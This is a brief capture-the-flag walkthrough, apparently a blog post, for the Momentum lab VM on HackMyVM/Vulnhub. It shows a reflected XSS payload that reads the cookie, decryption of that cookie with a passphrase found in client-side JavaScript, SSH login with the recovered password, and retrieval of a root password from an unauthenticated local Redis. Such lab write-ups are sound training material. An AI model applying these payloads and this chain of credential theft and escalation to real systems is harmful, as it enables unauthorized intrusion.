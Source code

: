 ```yaml
---
layout: post
title:  "Momentum -  HackMyVM / Vulnhub"
---
```




## Port Scan

```console
22/tcp open  ssh
80/tcp open  http
```

## XSS

```
http://10.0.2.239/opus-details.php?id=<script>alert(document.cookie)</script>
```

Result : `cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt`

## Read main.js

```
view-source:http://10.0.2.239/js/main.js
```

```js
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

## Decrypt

First install packages

```
npm install crypto-js
```

```javascript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt("U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt", "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

#### Result

```
┌──(alienum㉿kali)-[~/Desktop]
└─$ node decrypt.js
auxerre-<REMOVED>##
```

## SSH | Guess username

username : `auxerre`
password : `auxerre-<REMOVED>##`

## Redis

```sh
auxerre@Momentum:~$ ss -an | grep 6379
tcp    LISTEN  0    128     127.0.0.1:6379    0.0.0.0:*               
```

#### Finding root password

```sh
auxerre@Momentum:~$ redis-cli
127.0.0.1:6379> KEYS *
1) "rootpass"
127.0.0.1:6379> GET rootpass
"m0mentum-<REMOVED>##"
127.0.0.1:6379>exit
auxerre@Momentum:~$ su root
Password:
root@Momentum:/home/auxerre# cd
root@Momentum:~#
```
